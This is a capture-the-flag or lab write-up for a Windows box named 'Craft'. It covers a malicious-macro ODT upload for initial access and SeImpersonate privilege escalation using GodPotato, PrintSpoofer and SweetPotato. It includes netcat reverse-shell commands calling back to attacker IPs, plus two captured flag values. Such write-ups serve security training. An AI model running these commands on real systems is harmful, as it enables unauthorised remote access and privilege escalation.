

# Craft \[Inter]

## Report

Website on port 80 accepts file upload for .odt files, null byte poisoning works but we can't get payload to execute and directory traversal is blocked. Uploading malicious micro running powershell in the assumption that the file we upload will be opened gets us a reberse shell. To lateral privesc to user 'apache' who has SeImpersonate, create reverse shell at web root.

GodPotato works but critical commands like whoami and ipconfig dont work really which ruins the whole point especially when submitting for proof, PrintSpoofer however does get the job done.&#x20;

## Enumeration

192.168.155.169

### Files

None

### Initial Foothold

Submit ODT file on port 80 and get revshell



Upload reverse shell to web root to become user apache who has 'SeImpersonate'

## PrivEsc

Let’s check the .NET version now that we have SeImpersonatePrivilege.

```
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
```

`.\GodPotato-NET4.exe -cmd "cmd /c C:\programdata\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.205 8001"`

`.\GodPotato-NET4.exe -cmd "cmd /c C:\programdata\nc64.exe 192.168.45.205 8001 -e C:\Windows\System32\cmd.exe"`

`.\PrintSpoofer.exe -i -c cmd`

GodPotato works but can't use certain commands, useless if you want proof, but actlly just spawn a netcat after getting the first GodPotato

.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"

SweetPotato is a combo of EfsRpc, PrintSpoofer (Default) and other

JuicyPotatoNG looks nice find an exe tho cba to brute CLID

## Loot

### Creds

None

### Flags

6dc34aa7d9817c784bf4522b93b14919

fc9788921d3b6157db48148fcf5ecb45

## Proof

Confirm Spooler service is running first befor using PrintSpoofer

```
PS C:\Users\jeanv> Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

<div align="left"><figure><figcaption></figcaption></figure></div>
